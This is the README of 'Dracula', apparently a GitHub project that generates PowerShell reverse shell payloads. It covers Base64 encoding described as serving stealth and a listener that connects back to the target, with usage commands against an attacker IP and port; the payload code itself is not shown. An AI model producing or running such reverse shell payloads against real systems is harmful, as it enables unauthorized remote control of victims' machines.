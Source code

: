 WIP, HASNT PROPERLY BEEN TESTED ON OTHER SYSTEMS
works as of now
# Dracula 

Dracula is a Python-based tool designed to generate reverse shell payloads using PowerShell and Command Prompt. It provides options to create encoded payloads for stealth and supports direct connection to a target system once the payload is executed.

## Features
- Generates PowerShell-based reverse shell payloads
- Supports both plain text and Base64 encoded payloads
- Allows automatic connection to a target after execution



## Installation
Ensure you have Python installed, then clone this repository:

```bash
git clone https://github.com/chet-ag09/dracula
cd dracula
```

Install any necessary dependencies:

```bash
pip install -r requirements.txt  
```

## Usage
Run the script using:

```bash
python dracula.py
```

### Commands

- **Generate a reverse shell payload:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -OUTFILE <output-file>
  ```

- **Generate an encoded payload (Base64):**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -OUTFILE <output-file> -ENCODED
  ```

- **Display payload directly:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port>
  ```

- **Display an encoded payload:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -ENCODED
  ```

- **Start a listener after payload execution:**
  ```bash
  Dracula >> -IP <attacker-ip> -PORT <port> -CONNECT
  ```

## Example

To generate a Base64 encoded payload for a reverse shell:

```bash
Dracula >> -IP 192.168.1.10 -PORT 4444 -OUTFILE shell.bat -ENCODED
```

To start a listener after the payload is executed:

```bash
Dracula >> -IP 192.168.1.10 -PORT 4444 -CONNECT
```

## Disclaimer
This tool is intended for educational and ethical penetration testing purposes only. The author does not take responsibility for any misuse. Use this tool only on systems you own or have explicit permission to test.

